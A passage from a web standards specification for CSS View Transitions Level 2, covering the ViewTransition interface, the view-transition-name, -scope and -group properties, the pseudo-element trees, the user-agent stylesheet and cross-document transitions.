  The point that `ready` fulfills is the ideal opportunity to animate the view transition pseudo-elements with the [Web Animation API](#web-animations-1:extensions-to-the-element-interface).

**`viewTransition.finished`**

: A promise that fulfills once the end state is fully visible and interactive to the user.

  It only rejects if `updateCallback` returns a rejected promise, as this indicates the end state wasn’t created.

  Otherwise, if a transition fails to begin, or is skipped (by `skipTransition()`), the end state is still reached, so `finished` fulfills.

**`viewTransition.skipTransition()`**

: Immediately finish the transition, or prevent it starting.

  This never prevents `updateCallback` being called, as the DOM change is independent of the transition. See [§ 1.5 Transitions as an enhancement](#css-view-transitions-2:transitions-as-enhancements) for more details on this principle.

  If this is called before `ready` resolves, `ready` will reject.

  If `finished` hasn’t resolved, it will fulfill or reject along with `updateCallbackDone`.

**`viewTransition.transitionRoot`**

: The `ViewTransition`’s root element.

  For view transitions started on the `Document`, this is the document element.

**`viewTransition.waitUntil()`**

: Delays view transition finish until the given promise is settled.

A `ViewTransition` has the following:

****named elements****

: a map, whose keys are view transition names and whose values are captured elements. Initially a new map. Note: Since this is associated to the `ViewTransition`, it will be cleaned up when Clear view transition is called.

****phase****

: One of the following ordered phases, initially "`pending-capture`":

  1. "`pending-capture`".
  2. "`update-callback-called`".
  3. "`animating`".
  4. "`done`".

  > **Note:** For the most part, a developer using this API does not need to worry about the different phases, since they progress automatically. It is, however, important to understand what steps happen in each of the phases: when the snapshots are captured, when pseudo-element DOM is created, etc. The description of the phases below tries to be as precise as possible, with an intent to provide an unambiguous set of steps for implementors to follow in order to produce a spec-compliant implementation.

****update callback****

: a `ViewTransitionUpdateCallback` or null. Initially null.

****ready promise****

: a `Promise`. Initially a new promise in this’s relevant Realm.

****update callback done promise****

: a `Promise`. Initially a new promise in this’s relevant Realm.

  > **Note:** The ready promise and update callback done promise are immediately created, so rejections will cause `unhandledrejection`s unless they’re handled, even if the getters such as `updateCallbackDone` are not accessed.

****finished promise****

: a `Promise`. Initially a new promise in this’s relevant Realm, marked as handled.

  > **Note:** This is marked as handled to prevent duplicate `unhandledrejection`s, as this promise only ever rejects along with the update callback done promise.

****initial snapshot containing block size****

: a tuple of two numbers (width and height), or null. Initially null.

  > **Note:** This is used to detect changes in the snapshot containing block size, which causes the transition to skip. [Discussion of this behavior](https://github.com/w3c/csswg-drafts/issues/8045).

****active types****

: A `ViewTransitionTypeSet`, initially empty.

****outbound post-capture steps****

: Null or a set of steps, initially null.

****root element****

: An `Element`, indicating which element is hosting the `ViewTransition`.

****wait until promise count****

: An integer, initially 0. Represents the count of promises that have been added via `waitUntil()` and have not settled.

The `finished` getter steps are to return this’s finished promise.

The `ready` getter steps are to return this’s ready promise.

The `updateCallbackDone` getter steps are to return this’s update callback done promise.

The `types` getter steps are to return this’s active types.

The `transitionRoot` getter steps are to return this’s root element.

##### 2.3.1. The `ViewTransitionTypeSet` Interface {#css-view-transitions-2:the-viewtransitiontypeset-interface}

```webidl
[Exposed=Window]
interface ViewTransitionTypeSet {
  setlike<DOMString>;
};
```

The `ViewTransitionTypeSet` object represents a set of strings, without special semantics.

> **Note:** a `ViewTransitionTypeSet` can contain strings that are invalid for `:active-view-transition-type`, e.g. strings that are not a `<custom-ident>`.

##### 2.3.2. `skipTransition()` Method Steps {#css-view-transitions-2:ViewTransition-skipTransition}

The method steps for **`skipTransition()`** are:

1. If this’s phase is not "`done`", then skip the view transition for this with an "`AbortError`" `DOMException`.

##### 2.3.3. `waitUntil()` Method Steps {#css-view-transitions-2:ViewTransition-waitUntil}

The method steps for **`waitUntil(promise)`** are:

1. Delay finish for promise given this and *promise*.

### 3. CSS properties {#css-view-transitions-2:css-properties}

#### 3.1. Tagging Individually Transitioning Subtrees: the `view-transition-name` property {#css-view-transitions-2:view-transition-name-prop}

| Field | Value |
| --- | --- |
| Name: | **view-transition-name** |
| [Value:](#css-values-4:value-defs) | none \| `<custom-ident>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Note:** though `view-transition-name` is discretely animatable, animating it doesn’t affect the running view transition. Rather, it’s a way to set its value in a way that can change over time or based on a timeline. An example for using this would be to change the `view-transition-name` based on scroll-driven animations.

The `view-transition-name` property “tags” an element for capture in a view transition, tracking it independently in the view transition tree under the specified **view transition name**. An element so captured is animated independently of the rest of the page.

****none****

: The element will not participate independently in a view transition.

****`<custom-ident>`****

: The element participates independently in a view transition—​as either an old or new element—​with the specified view transition name.

  Each view transition name is a tree-scoped name.

  The values `none`, `auto`, and `match-element` are excluded from `<custom-ident>` here.

  > **Note:** If this name is not unique within a single transition (i.e. if two elements simultaneously specify the same view transition name) then the view transition will abort. It is, however, possible to have non-unique view transition names as long as the elements with these names are never part of the same transition.

> **Note:** For the purposes of this API, if one element has view transition name `foo` in the old state, and another element has view transition name `foo` in the new state, they are treated as representing different visual states of the same element, and will be paired in the view transition tree. This may be confusing, since the elements themselves are not necessarily referring to the same object, but it is a useful model to consider them to be visual states of the same conceptual page entity.

If the element’s principal box is fragmented, skipped, or not rendered, this property has no effect. See [§ 12 Algorithms](#css-view-transitions-2:algorithms) for exact details.

To get the **document-scoped view transition name** for an `Element` *element*:

1. Let *scopedViewTransitionName* be the computed value of `view-transition-name` for *element*.
2. If *scopedViewTransitionName* is associated with *element*’s node document, then return *scopedViewTransitionName*.
3. Otherwise, return `none`.

##### 3.1.1. Rendering Consolidation {#css-view-transitions-2:named-and-transitioning}

Elements captured in a view transition during a view transition or whose `view-transition-name` computed value is not `none` (at any time):

- Form a stacking context.
- Are [flattened in 3D transforms](#css-transforms-2:grouping-property-values).
- Form a backdrop root.

#### 3.2. Isolating Scoped View Transition Names: the `view-transition-scope` property {#css-view-transitions-2:view-transition-scope-prop}

| Field | Value |
| --- | --- |
| Name: | **view-transition-scope** |
| [Value:](#css-values-4:value-defs) | none \| all |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Note:** Although `view-transition-scope` is discretely animatable, it only has an effect during `view-transition-name` discovery

****none****

: This property has no effect on `view-transition-name` discoverability.

****all****

: Discoverability of `view-transition-name` is limited to the subtree of this element. This is done by applying **view transition scoping**. Such scoping means that any transitions that originate outside of the element will not discover a non-none `view-transition-name` either on this element or in its flat-tree descedants.

  > **Example:** ```html
  > <style>
  > .scope { view-transition-scope: all; }
  > #a { view-transition-name: a; }
  > #b { view-transition-name: b; }
  > #c { view-transition-name: c; }
  > #d { view-transition-name: d; }
  > </style>
  >
  > <div id=a>
  >   <div id=b class=scope>
  >     <div id=c></div>
  >   </div>
  >   <div id=d></div>
  > </div>
  >
  > <script>
  > ...
  > a.startViewTransition(); // Will discover "a" and "d" view-transition-names
  > b.startViewTransition(); // Will discover "b" and "c" view-transition-names
  > ...
  > </script>
  > ```

  > **Note:** Starting a transition implies that this element has `view-transition-scope: all` for the duration of the transition.

  > **Example:** ```html
  > <style>
  > #a { view-transition-name: a; }
  > #b { view-transition-name: b; }
  > #c { view-transition-name: c; }
  > #d { view-transition-name: d; }
  > </style>
  >
  > <div id=a>
  >   <div id=b>
  >     <div id=c></div>
  >   </div>
  >   <div id=d></div>
  > </div>
  >
  > <script>
  > ...
  > b.startViewTransition(); // Will discover "b" and "d" view-transition-names
  >
  > // While b's transition is active and running, the following will only discover
  > // "a" and "d" view transition names, since b has a forced view-transition-scope: all.
  > b.startViewTransition()
  > ...
  > </script>
  > ```

> **Note:** Most elements running or planning to run a scoped view transition should use `view-transition-scope: all`, to ensure that their document-scoped view transition names don’t accidentally interfere with other scoped view transitions in the ancestor chain.

#### 3.3. Nested View Transition Groups: The `view-transition-group` property {#css-view-transitions-2:view-transition-group-prop}

| Field | Value |
| --- | --- |
| Name: | **view-transition-group** |
| [Value:](#css-values-4:value-defs) | normal \| contain \| nearest \| `<custom-ident>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `view-transition-group` property can be used in conjuction with `view-transition-name` to generate a hierarchy of named view transition pseudo-element. This property has no effect if `view-transition-name` is `none`.

****normal****

: The `view-transition-group()` pseudo-element generated by this element is a child of the `view-transition-group-children()` pseudo-element generated by this element’s nearest `view-transition-group()` generating flat tree ancestor element with a non-`normal` `view-transition-group` value, if any. If no such element is present, the `view-transition-group()` pseudo-element generated by this element is a direct child of the `::view-transition` pseudo-element associated with this view transition.

****contain****

: The `view-transition-group-children()` pseudo-element generated by this element acts as a container for its descendants. See `normal` for the effect it has on other elements.

****nearest****

: The `view-transition-group()` pseudo-element generated by this element is a child of the `view-transition-group-children()` pseudo-element generated by this element’s nearest `view-transition-group()` generating flat tree ancestor element, if any. If no such element is present, the `view-transition-group()` pseudo-element generated by this element is a direct child of the `::view-transition` pseudo-element associated with this view transition.

****`<custom-ident>`****

: The `view-transition-group()` pseudo-element generated by this element is a child of the `view-transition-group()` pseudo-element generated by this element’s flat tree ancestor element with a `view-transition-name` value that matches '`<custom-ident>`', if any. If no such element is present, the `view-transition-group()` pseudo-element generated by this element is a direct child of the `::view-transition` pseudo-element associated with this view transition.

The `view-transition-group-children()` pseudo-element is generated if and only if there is a `view-transition-group()` pseudo-element attached to it.

The used value for `view-transition-group` resolves to a `view-transition-name` in its ancestor chain, or to `none`. When generating the named view transition pseudo-element, the `::view-transition-group()` with that name would create a `::view-transition-group-children()` pseudo-element, which would be the parent of the `::view-transition-group()` generated for this element’s `view-transition-name`.

##### 3.3.1. Nested View Transition Group Explanation {#css-view-transitions-2:nested-overview}

*This section is non-normative.*

By default, setting `view-transition-name` on multiple elements generates a flat view transition tree, where all the `::view-transition-group()` pseudo-elements are children of the `::view-transition` pseudo-element. This is sufficient for many simple use-cases, but there are some styling use-cases that cannot be achieved with a flat tree. The most prominent use-case is clipping: with a flat tree, all pseudo-elements are clipped to the snapshot containing block, so clipping elements in the normal tree would lose their clipping during the view-transition, resulting in a broken visual effect. The effects that have can have an unexpected visual effect in a flat tree:

- Clipping (`overflow`, `clip-path`, `border-radius`): clipping affects the children of the element.
- `opacity`, `mask-image` and `filter`: These effects that are designed to work on a fully rasterized image of a tree, rather than on each item individually.
- 3D transforms (`transform-style`, `transform`, `perspective`): to display the full range of 3D transform animations, some hierarchy needs to be kept.

To enable these use cases, this specification introduces the concept of nesting view-transition pseudo-elements. By using the `view-transition-group` CSS property, the author can assign a "parent group" for a generated `::view-transition-group()` pseudo-element, creating a hierarchy in the view transition tree.

##### 3.3.2. Examples {#css-view-transitions-2:nested-vt-example}

> **Example:** This example creates a transition where the view transition tree is nested instead of flat:
>
> ```html
> <section class="container">
>   <article>Content</article>
> </section>
> ```
>
> ```css
> .container {
>   view-transition-name: container;
> }
>
> .container,
> ::view-transition-group-children(container) {
>   clip-path: circle();
> }
>
> article {
>   view-transition-name: article;
>   view-transition-group: container;
> }
> ```
>
> The pseudo-element tree for this would be as follows:
>
> ```
> ::view-transition
> ├─ ::view-transition-group(container)
> │  ├─ ::view-transition-image-pair(container)
> │  │  ├─ ::view-transition-old(container)
> │  │  └─ ::view-transition-new(container)
> │  └─ ::view-transition-group-children(container)
> │     ├─ ::view-transition-group(article)
> │     │  ├─ ::view-transition-old(article)
> │     │  └─ ::view-transition-new(article)
> │     └─ ...other nested groups...
> └─ …other groups…
> ```
>
> By applying the `clip-path` to both the containing element and its generated `::view-transition-group-children()` pseudo-element, we preserve the clip during the transition, and by applying `view-transition-group` to the internal element referencing the container, we make the tree "nested" in a way that would apply this clipping.

### 4. Scoped View Transitions {#css-view-transitions-2:scoped-vt}

In addition to view transitions triggered on the document itself (**global view transitions**), individual elements can host their own **scoped view transitions**. This enables multiple view transitions to run on a page at the same time, with each animating a different subtree of the document. It also enables a view transition to be affected by the layout and rendering of its subtree, being affected by scrolling, filters, `z-index`, etc. ("Global" view transitions are always rendered on a separate, higher rendering layer than the rest of the document.)

In order to host a scoped view transition, an element must qualify for layout containment, which will be applied automatically, so its painted output can be captured as an atomic unit.

View transitions whose root element is the document element are *not* scoped view transitions. They’re global view transitions.

### 5. Pseudo-elements {#css-view-transitions-2:pseudo}

#### 5.1. Pseudo-element Trees {#css-view-transitions-2:pseudo-root}

> **Note:** This is a general definition for trees of pseudo-elements. If other features need this behavior, these definitions will be moved to [css-pseudo-4].

A **pseudo-element root** is a type of tree-abiding pseudo-element that is the root in a tree of tree-abiding pseudo-elements, known as the **pseudo-element tree**.

The pseudo-element tree defines the document order of its descendant tree-abiding pseudo-elements.

When a pseudo-element participates in a pseudo-element tree, its originating pseudo-element is its parent.

If a descendant *pseudo* of a pseudo-element root has no other siblings, then `:only-child` matches that *pseudo*.

> **Note:** This means that `::view-transition-new(ident):only-child` will only select `::view-transition-new(ident)` if the parent `::view-transition-image-pair(ident)` contains a single child. As in, there is no sibling `::view-transition-old(ident)`.

#### 5.2. View Transition Pseudo-elements {#css-view-transitions-2:view-transition-pseudos}

The visualization of a view transition is represented as a pseudo-element tree called the **view transition tree** composed of the **view transition pseudo-elements** defined below. This tree is built during the setup transition pseudo-elements step, and is rooted under a `::view-transition` pseudo-element originating from the `ViewTransition`’s root element. All of the view transition pseudo-elements are selected from their ultimate originating element, the `ViewTransition`’s root element.

The view transition tree is not exposed to the accessibility tree.

> **Example:** For example, even though a `::view-transition-group()` pseudo-element is nested underneath its parent `::view-transition` pseudo-element for styling and layout purposes, it’s selected directly on the element hosting the `ViewTransition`: if you’d use `.foo::view-transition`, you’ll also use `.foo::view-transition-group()`.
>
> Doing `.foo::view-transition::view-transition-group()` is incorrect, and won’t select anything.

> **Note:** Once the user-agent has captured both the “old” and “new” states of the document, it creates a structure of pseudo-elements like the following:
>
> ```
> ::view-transition
> ├─ ::view-transition-group(name)
> │  └─ ::view-transition-image-pair(name)
> │     ├─ ::view-transition-old(name)
> │     └─ ::view-transition-new(name)
> └─ …other groups…
> ```
>
> Each element with a `view-transition-name` is captured separately, and a `::view-transition-group()` is created for each unique `view-transition-name`.
>
> For convenience, the document element is given the `view-transition-name` "root" in the [user-agent style sheet](#css-view-transitions-2:ua-styles).
>
> Either `::view-transition-old()` or `::view-transition-new()` are absent in cases where the capture does not have an “old” or “new” state.
>
> Each of the pseudo-elements generated can be targeted by CSS in order to customize its appearance, behavior and/or add animations. This enables full customization of the transition.

> **Note:** When using `view-transition-group` property, an additional `::view-transition-group-children()` pseudo is created that allows for clipping of descendants and specifying relative transforms.
>
> ```
> ::view-transition
> ├─ ::view-transition-group(name)
> │  ├─ ::view-transition-image-pair(name)
> │  │  ├─ ::view-transition-old(name)
> │  │  └─ ::view-transition-new(name)
> │  └─ ::view-transition-group-children(name)
> │			└─ …groups nested under 'name'…
> └─ …other groups…
> ```
>
> `view-transition-group-children()` element can now be customized to add, for example, clipping with 'overflow: clip'. This would clip any `view-transition-group()` pseudo-elements along with their descendants.

##### 5.2.1. Named View Transition Pseudo-elements {#css-view-transitions-2:named-view-transition-pseudo}

Several of the view transition pseudo-elements are **named view transition pseudo-elements**, which are functional fully styleable view transition pseudo-elements associated with a view transition name. These pseudo-elements take a `<pt-name-selector>` as their argument, and their syntax follows the pattern:

```css
::view-transition-pseudo(<pt-name-selector>)
```

where `<pt-name-selector>` selects a view transition name, and has the following syntax definition:

```css
<pt-name-selector> = '*' | <custom-ident>
```

A named view transition pseudo-element selector only matches a corresponding pseudo-element if its `<pt-name-selector>` matches that pseudo-element’s view transition name, i.e. if it is either `*` or a matching `<custom-ident>`.

> **Note:** The view transition name of a view transition pseudo-element is set to the `view-transition-name` that triggered its creation.

The specificity of a named view transition pseudo-element selector with a `<custom-ident>` argument is equivalent to a type selector. The specificity of a named view transition pseudo-element selector with a `*` argument is zero.

##### 5.2.2. View Transition Tree Root: the `::view-transition` pseudo-element {#css-view-transitions-2:view-transition-pseudo}

The **::view-transition** pseudo-element is a fully styleable pseudo-element that is also a pseudo-element root. If its originating element is the document’s document element, its containing block is the snapshot containing block.

> **Note:** In that case, the position of this element within the document element does not matter, as its containing block is the snapshot containing block.

An element’s `::view-transition` pseudo-element only generates boxes when that pseudo-element has children.

> **Note:** This element serves as the parent of all `::view-transition-group()` pseudo-elements.

##### 5.2.3. View Transition Named Subtree Root: the `::view-transition-group()` pseudo-element {#css-view-transitions-2:::view-transition-group}

The **::view-transition-group()** pseudo-element is a named view transition pseudo-element that represents a matching named view transition capture. A `::view-transition-group()` pseudo-element is generated for each view transition name as a child of the `::view-transition` pseudo-element, and contains a corresponding `::view-transition-image-pair()`.

> **Note:** This element initially mirrors the size and position of the “old” element, or the “new” element if there isn’t an “old” element.
>
> If there’s both an “old” and “new” state, styles in the dynamic view transition style sheet animate this pseudo-element’s `width` and `height` from the size of the old element’s border box to that of the new element’s border box.
>
> Also the element’s `transform` is animated from the old element’s screen space transform to the new element’s screen space transform.
>
> This style is generated dynamically since the values of animated properties are determined at the time that the transition begins.

##### 5.2.4. View Transition Image Pair Isolation: the `::view-transition-image-pair()` pseudo-element {#css-view-transitions-2:::view-transition-image-pair}

The **::view-transition-image-pair()** pseudo-element is a named view transition pseudo-element that represents a pair of corresponding old/new view transition captures. This pseudo-element is a child of the corresponding `::view-transition-group()` pseudo-element and contains a corresponding `::view-transition-old()` pseudo-element and/or a corresponding `::view-transition-new()` pseudo-element (in that order).

> **Note:** This element exists to provide `isolation: isolate` for its children, and is always present as a child of each `::view-transition-group()`. This isolation allows the image pair to be blended with non-normal blend modes without affecting other visual outputs. As such, the developer would typically not need to add custom styles to the `::view-transition-image-pair()` pseudo-element. Instead, a typical design would involve styling the `::view-transition-group()`, `::view-transition-old()`, and `::view-transition-new()` pseudo-elements.

##### 5.2.5. View Transition Old State Image: the `::view-transition-old()` pseudo-element {#css-view-transitions-2:::view-transition-old}

The **::view-transition-old()** pseudo-element is an empty named view transition pseudo-element that represents a visual snapshot of the “old” state as a replaced element; it is omitted if there’s no “old” state to represent. Each `::view-transition-old()` pseudo-element is a child of the corresponding `::view-transition-image-pair()` pseudo-element.

> **Note:** `:only-child` can be used to match cases where this element is the only element in the `::view-transition-image-pair()`.
>
> The appearance of this element can be manipulated with `object-*` properties in the same way that other replaced elements can be.

> **Note:** The content and natural dimensions of the image are captured in capture the image, and set in setup transition pseudo-elements.

> **Note:** Additional styles in the dynamic view transition style sheet added to animate these pseudo-elements are detailed in setup transition pseudo-elements and update pseudo-element styles.

##### 5.2.6. View Transition New State Image: the `::view-transition-new()` pseudo-element {#css-view-transitions-2:::view-transition-new}

The **::view-transition-new()** pseudo-element (like the analogous `::view-transition-old()` pseudo-element) is an empty named view transition pseudo-element that represents a visual snapshot of the “new” state as a replaced element; it is omitted if there’s no “new” state to represent. Each `::view-transition-new()` pseudo-element is a child of the corresponding `::view-transition-image-pair()` pseudo-element.

> **Note:** The content and natural dimensions of the image are captured in capture the image, then set and updated in setup transition pseudo-elements and update pseudo-element styles.

##### 5.2.7. View Transition Group Children: the `::view-transition-group-children()` pseudo-element {#css-view-transitions-2:::view-transition-group-children}

The **::view-transition-group-children()** pseudo-element is created when mandated by the `view-transition-group` property on either the element itself or on its contained element. It serves as a container for descendant `view-transition-group()` pseudo-elements. By default, it is sized to the same size as the corresponding `view-transition-group()` pseudo element. By default, it has a transparent border that matches the size and shape of the border on the element that caused this structure to be created.

> **Note:** The size and border setting on this pseudo element allow the developer to enable clipping of the descedant pseudo elements with a simple `overflow: clip` property. The developer needs to take care if the original element has non-overscroll scrollbars, since these scrollbars change the clipping area from the default provided by this element.

### 6. View Transition Layout {#css-view-transitions-2:view-transition-rendering}

The view transition pseudo-elements are styled, laid out, and rendered like normal elements. Global view transitions originate in the snapshot containing block rather than the initial containing block and are painted in the view transition layer above the rest of the document; scoped view transitions are simply rendered after and above all other children of their root element.

#### 6.1. The Snapshot Containing Block {#css-view-transitions-2:snapshot-containing-block-concept}

The **snapshot containing block** is a rectangle that covers all areas of the window that could potentially display page content (and is therefore consistent regardless of root scrollbars or interactive widgets). This makes it likely to be consistent for the document element’s old image and new element.

Within a child navigable, the snapshot containing block is the union of the navigable’s viewport with any scrollbar gutters.

 

An example of the snapshot containing block on a mobile OS. The snapshot includes the URL bar, as this can be scrolled away. The keyboard is included as this appears and disappears. The top and bottom bars are part of the OS rather than the browser, so they’re not included in the snapshot containing block.

 

An example of the snapshot containing block on a desktop OS. This includes the scrollbars, but does not include the URL bar, as web content never appears in that area.

The **snapshot containing block origin** refers to the top-left corner of the snapshot containing block.

The **snapshot containing block size** refers to the width and height of the snapshot containing block as a tuple of two numbers.

The snapshot containing block is considered to be an absolute positioning containing block and a fixed positioning containing block for `::view-transition` and its descendants.

#### 6.2. View Transition Painting Order {#css-view-transitions-2:view-transition-stacking-layer}

This specification introduces a new stacking layer, the view transition layer, to the end of the painting order established in [CSS2§E Elaborate Description of Stacking Contexts](#css2). [CSS2]

> **Issue:** Fold this into [CSS-POSITION-4], as the interaction with top layers needs to be specified.

For a global view transition, the `::view-transition` pseudo-element generates a new stacking context, called the **view transition layer**, which paints after all other content of the document (including any content rendered in the top layer), after any filters and effects that are applied to such content. (It is not subject to such filters or effects, except insofar as they affect the rendered contents of the `::view-transition-old()` and `::view-transition-new()` pseudo-elements.)

> **Note:** The intent of the feature is to be able to capture the contents of the page, which includes the top layer elements. In order to accomplish that, the view transition layer cannot be a part of the captured stacking contexts, since that results in a circular dependency. Therefore, the view transition layer is a sibling of all other content.

When an active view transition’s phase is "`animating`", the boxes generated by any element with captured in a view transition in that transition and its element contents, except the inclusive descendants of the `::view-transition` pseudo-element on that transition’s root element, are not painted (as if they had `opacity: 0`) and do not respond to hit-testing (as if they had `pointer-events: none`).

> **Note:** Elements participating in a transition need to skip painting in their DOM location because their image is painted in the corresponding `::view-transition-new()` pseudo-element instead. Similarly, hit-testing is skipped because the element’s DOM location does not correspond to where its contents are rendered. However, there is no change in how these elements are accessed by assistive technologies or the accessibility tree.

#### 6.3. Scoped View Transition Layout {#css-view-transitions-2:scoped-view-transition-layout}

For a scoped view transition, the `::view-transition` pseudo-element is a child of the root element in the box tree, but with some behaviors that are different from ordinary children:

- The `::view-transition` pseudo-element generates a stacking context which paints separately from, and on top of, the painting of the root element and its other children.

  > **Note:** A consequence of painting separately is that properties on the root element that affect the way the root element is painted, such as `opacity`, do not apply to the `::view-transition` pseudo-element. However, if the root element is captured in a `::view-transition-group` for its own transition, such properties will be reflected in the captured image.
- If the root element has a scrolling box, the `::view-transition` pseudo-element is not translated by the scroll position of the root element.
- If the root element clips its overflow, the `::view-transition` pseudo-element is exempted from that clip.

### 7. User Agent Stylesheet {#css-view-transitions-2:ua-styles}

The **global view transition user agent style sheet** is a user-agent origin style sheet containing the following rules:

```css
:root {
  view-transition-name: root;
}

::view-transition {
  position: absolute;
  inset: 0;
}

::view-transition-group(*) {
  position: absolute;
  top: 0;
  left: 0;

  animation-duration: 0.25s;
  animation-fill-mode: both;
}

::view-transition-image-pair(*) {
  position: absolute;
  inset: 0;
}

::view-transition-old(*),
::view-transition-new(*) {
  position: absolute;
  display: block;
  inset-block-start: 0;
  inline-size: 100%;
  block-size: auto;
}

::view-transition-image-pair(*),
::view-transition-old(*),
::view-transition-new(*) {
  animation-duration: inherit;
  animation-fill-mode: inherit;
  animation-delay: inherit;
  animation-timing-function: inherit;
  animation-iteration-count: inherit;
  animation-direction: inherit;
  animation-play-state: inherit;
}

::view-transition-group-children(*) {
  position: absolute;
  inset: 0;
  border-style: solid;
  border-color: transparent;
}

/* Default cross-fade transition */
@keyframes -ua-view-transition-fade-out {
  to { opacity: 0; }
}
@keyframes -ua-view-transition-fade-in {
  from { opacity: 0; }
}

/* Keyframes for blending when there are 2 images */
@keyframes -ua-mix-blend-mode-plus-lighter {
  from { mix-blend-mode: plus-lighter }
  to { mix-blend-mode: plus-lighter }
}
```

> **Note:** Explanatory Summary This UA style sheet does several things:
>
> - Lay out `:root::view-transition` to cover the entire snapshot containing block so that each `:view-transition-group()` child can lay out relative to it. Note: the placement of the snapshot containing block is similar to `position: fixed`.
> - For a scoped view transition, lay out `::view-transition` to cover the view transition root element.
> - Give the root element a default view transition name, to allow it to be independently selected.
> - Reduce layout interference from the `::view-transition-image-pair()` pseudo-element so that authors can essentially treat `::view-transition-old()` and `::view-transition-new()` as direct children of `::view-transition-group()` for most purposes.
> - Inherit animation timing through the tree so that by default, the animation timing set on a `::view-transition-group()` will dictate the animation timing of all its descendants.
> - Style the element captures `::view-transition-old()` and `::view-transition-new()` to match the size and position set on `::view-transition-group()` (insofar as possible without breaking their aspect ratios) as it interpolates between them. Since the sizing of these elements depends on the mapping between logical and physical coordinates, dynamic view transition style sheet copies relevant styles from the DOM elements.
> - Set up a default quarter-second cross-fade animation for each `::view-transition-group()`.

Additional styles are dynamically added to the user-agent origin during a view transition through the dynamic view transition style sheet.

### 8. Cross-document view transitions {#css-view-transitions-2:cross-document-view-transitions}

#### 8.1. Overview {#css-view-transitions-2:cross-doc-overview}

*This section is non-normative.*

##### 8.1.1. Activation {#css-view-transitions-2:activating-cross-document-view-transition}

With same-document view transitions, the author starts a view transition using JavaScript, by calling `startViewTransition`. In cross-document view transition, what triggers a view transition is a navigation between two documents, as long as the following conditions are met:

- Both documents are of the same origin;
- The page is visible throughout the entire course of the navigation;
- The user initiates the navigation by interacting with the page, e.g. by clicking a link or submitting a form; or by interacting with the browser UI to do a `traverse` navigation (back/forward). This excludes, for example, navigations initiated by the URL bar;
- the navigation didn’t include cross-origin redirects; and
- both documents opted in to cross-document view transitions, using the `@view-transition` rule.

See the [lifecycle](#css-view-transitions-2:lifecycle) section for more details.

##### 8.1.2. Waiting for the new state to stabilize {#css-view-transitions-2:waiting-for-stable-state}

In same-document view transitions, the author can indicate when the new state of the transition is in a stable state by using the callback passed to `startViewTransition`. Since cross-document view transitions are declarative, there is no such explicit promise. Instead, the user agent relies on the render-blocking mechanism to decide when the document has reached a stable state. In this way, the author can use the `blocking` attribute, to delay the transition until:

- All expected scripts are executed, by using the script’s `blocking` attribute on required scripts.
- All expected styles are executed, by using the style or link’s `blocking` attribute on required styles.
- All expected HTML elements are seen by the parser, using an `expect` `HTMLLinkElement` element.

> **Note:** overusing the render-blocking mechanism could make it so that the old state remains frozen for a long time, resulting in a jarring user experience. To avoid this, it’s advised to ensure that the render-blocking elements are available in a timely manner.

> **Example:** In this example, the last frame of the old document will be shown, and the animation will be delayed, until all the following conditions are met:
>
> - `style.css` is applied, to ensure the new state has the correct styles
> - `fixup.js` is run, to ensure the presentation is up to date with script-based fixups.
> - The `main-article` section is seen and parsed, to ensure enough of the content is loaded before allowing the transition to proceed.
>
> ```html
> <!DOCTYPE html>
> <html>
>   <head>
>     < !-- This will be render-blocking by default -->
>     <link rel="stylesheet" href="style.css">
>
>     < !-- Since this script fixes up the layout, marking it as render blocking will
>         ensure it's run before the view transition is activated -->
>     <script async href="fixup.js" blocking="render"></script>
>
>     < !-- Wait until the main-article element is seen and fully parsed before
>         activating the transition -->
>     <link rel="expect" href="#main-article" blocking="render">
>   </head>
>   <body>
>     <header>...</header>
>     <main>
>       <article id="main-article">...</article>
>     </main>
>     <article id="secondary-article">...</article>
>   </body>
> </html>
> ```

##### 8.1.3. Customization {#css-view-transitions-2:customizing-cross-document-view-transitions}

The `ViewTransition` object enables customizing the transition in script. Same-document view transitions use a single `ViewTransition` object returned from the `startViewTransition` call for the entire lifecycle. Cross-document view transitions have two `ViewTransition` objects, one in the old document and one in the new document.

###### 8.1.3.1. Handling the view transition in the old document {#css-view-transitions-2:old-doc-event}

The `pageswap` event is fired at the last moment before a document is about to be unloaded and swapped by another document. It can be used to find out whether a view transition is about to take place, customize it using `types`, make last minute changes to the captured elements, or skip it if necessary. The `PageSwapEvent` interface has a `viewTransition` object, which would be non-null when the navigation is eligible to a view transition, and a `activation` object, providing handy information about the navigation, like the URL after redirects. The transition’s `finished` promise can be used for cleaning up after the transition, in case the document is later restored from BFCache.

###### 8.1.3.2. Handling the view transition in the new document {#css-view-transitions-2:new-doc-event}

The `pagereveal` event is fired right before presenting the first frame of the new document. It can be used to find out if the view transition is still valid, by querying the `viewTransition` attribute. Similar to a same-document view transition, the author can now select different `types`, make last minute changes to the captured elements, wait for the transition to be `ready` in order to animate it, or skip it altogether.

##### 8.1.4. Lifecycle {#css-view-transitions-2:cross-doc-lifecycle}

*This section is non-normative.*

A successful cross-document view transition goes through the following phases:

1. In the old `Document`:

  1. The user initiates a navigation, by clicking a link, submitting a form, pressing the browser’s back button, etc.

     > **Note:** some navigations do not trigger a view-transition, e.g. typing a new address in the URL bar.
  2. When the new `Document` is ready to be activated, the `pageswap` event is fired.
  3. If the navigation is same origin, has no cross-origin redirects, and the old `Document` has [opted in to cross-document view transitions](#css-view-transitions-2:cross-doc-opt-in), the event’s `viewTransition` attribute would be a `ViewTransition` object.
  4. The author can now customize the transition, e.g. by mutating its `types`, or `skip` it altogether.
  5. If the `ViewTransition` is not skipped, the state of the old document is captured.
